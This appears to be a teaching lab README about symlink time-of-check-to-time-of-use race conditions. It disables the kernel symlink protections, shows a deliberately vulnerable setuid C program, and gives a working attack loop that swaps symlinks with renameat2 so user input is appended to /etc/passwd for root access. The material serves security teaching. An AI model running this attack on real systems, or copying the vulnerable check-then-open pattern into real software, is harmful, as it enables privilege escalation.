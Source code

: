 # Race Condition Lab

## What is race condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place. If a privileged program has a race-condition vulnerability, attackers can run a parallel process to “race” against the privileged program, with an intention to change the behaviors of the program.

## Environment Setup

```bash
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

`fs.protected_symlinks`: A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp

## Vulnerable Code

```c
int main()
{
    printf("RUID %d\n", getuid());
    printf("EUID %d\n", geteuid());

    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    /* check if the file is writable */
    if (!access(fn, W_OK)) { // <----- check the RUID
        fp = fopen(fn, "a+"); // <----- check the EUID
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Vulnerability: **the time window between the check for write permission and the opening of the file**. 

- There is a possibility that the file used by `access()` is different from the file used by `fopen()`, even though they have the same file name `/tmp/XYZ`. If a malicious attacker can somehow makes `/tmp/XYZ` a **symbolic link** pointing to a protected file, such as `/etc/passwd`, inside the time window, the attacker can cause the user input to be appended to `/etc/passwd`, and can thus gain the root privilege. The vulnerable program runs with the root privilege, so it can overwrite any file.
- `access()` vs `fopen()`: `access()` checks the file permission of the file name with read uid, but `fopen()` opens the file with the effective user id (EUID) of the process.
- In order to exploit this vulnerability to open file owned by root, the program has to be a **SET-UID** program and the program file owner has to be **root**. Because the **SET-UID** program allow the user a program with the EUID equals to the program file owner. We can achieve this by using the following commands.

```bash
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Task 1: Choose a target file to overwrite

- Target file: `/etc/passwd` because it is not writable by the normal user and if it is overwritten, the attacker can gain root privilege.
- Goal: create a new user account with root privilege, i.e, user id has to be 0.

## Task 2: Launching the Race Condition Attack

### Attack Program

The atomic swap is needed to avoid the context switch between the `unlink()` and `symlink()` calls.

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char argv[]) {
  while (1) {
	unsigned int FLAG = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/tmp/123","/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd","/tmp/ABC");
	renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", FLAG); // This swap the two files ATOMICALLY, i.e, /tmp/XYZ links to /etc/passwd and /tmp/ABC links to /tmp/XYZ
	sleep(0.1);
  }
}
```

### DEMO


